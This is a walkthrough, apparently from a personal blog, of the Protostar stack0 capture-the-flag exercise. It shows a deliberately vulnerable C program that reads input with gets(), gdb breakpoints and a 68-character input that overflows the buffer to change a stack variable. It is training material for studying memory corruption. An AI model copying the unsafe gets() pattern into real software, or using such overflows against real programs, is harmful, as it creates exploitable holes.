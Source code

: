 ```yaml
---
title: "Protostar stack0 walkthrough"
date: 2020-05-21
tags: [ctf, protostar, stack0, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


# Protostar exercises - [stack0](https://exploit-exercises.lains.space/protostar/stack0/)

#### About
This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

#### Procedure

In the program, input is loaded into buffer using `gets` function. Since `gets` is not a safe function, we can use it to overwrite the memory where 'modified' variable is stored.
We can solve this if we can change the 'modified' variable from 0

##### Vulnerability:

`gets` is vulnerable as it is impossible to tell how many characters gets() will reaed. it will continue to store the characters past the end of buffer.
`fgets` needs to be used instead.

##### Disassembly:

![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack0/disassembly.png)

Lets put breakpoints before and after `gets` call to see what registers are changed
```
break *0x0804840c
break *0x08048411
```
Lets also define some hooks to print at breakpoints
```
define hook-stop
>info registers
>x/24wx $esp
>x/2i $eip
>end
```
From disassembly, we can see [esp+0x5c] will store the value of 'modified' variable. So our aim is to overwrite this address

Now lets run and give the input as 'AAAAAAAA' and see what registers are writter with 0x41's

![AAAAA]({{site.url}}{{site.baseurl}}/images/protostar/stack0/AAAAA.png)

Looks like the registers 0xbffff76c and 0xbffff780 are overwrittern
We can check the 'modified' value using `x/x $esp+0x5c` which is 0x00000000, which is loacated at address 0xbffff7ac

To overwrite this address, we need to write from 0xbffff76c to 0xbffff7ac + 0x8 (0xbffff7b0), that is 0x44 (or 68) characters - AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIII

![done]({{site.url}}{{site.baseurl}}/images/protostar/stack0/done.png)

Now, we can see the register esp+0x5c is overwritten with 0x49494949 (IIII) and the variable is changed.

We can verify the input by running stack0 without gdb

![verify]({{site.url}}{{site.baseurl}}/images/protostar/stack0/verify.png)
